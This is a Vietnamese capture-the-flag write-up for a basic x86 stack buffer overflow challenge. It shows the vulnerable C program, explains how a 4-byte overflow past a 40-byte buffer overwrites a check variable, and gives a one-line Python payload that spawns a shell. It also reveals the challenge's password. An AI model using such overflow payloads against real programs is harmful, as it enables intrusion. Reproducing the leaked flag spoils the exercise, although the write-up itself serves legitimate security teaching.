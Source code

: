 # ELF x86 - Stack buffer overflow basic 1

```c
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>
#include <stdio.h>
 
int main()
{
 
  int var;
  int check = 0x04030201;
  char buf[40];
 
  fgets(buf,45,stdin);
 
  printf("\n[buf]: %s\n", buf);
  printf("[check] %p\n", check);
 
  if ((check != 0x04030201) && (check != 0xdeadbeef))
    printf ("\nYou are on the right way!\n");
 
  if (check == 0xdeadbeef)
   {
     printf("Yeah dude! You win!\nOpening your shell...\n");
     setreuid(geteuid(), geteuid());
     system("/bin/bash");
     printf("Shell closed! Bye.\n");
   }
   return 0;
}
```

Bài này hàm `fgets(buf,45,stdin)` cho phép nhập 44 kí tự trong khi mảng `buf` chỉ có 40 kí tự, ta đoán được chắc chắn nó sẽ đè lên biến `check` (các bạn có thể kiểm tra lại bằng gdb). Ta chỉ cần đè lên biến `check = 0xdeadbeef` là có thể lấy được shell.

```bash
cat <(python2 -c "print 'A' * 40 + '\xef\xbe\xad\xde'") - | ./ch13
```

Ta dùng `cat <() - |` để giữ shell sau khi lấy được

![](images/2.png)

Password là `1w4ntm0r3pr0np1s`
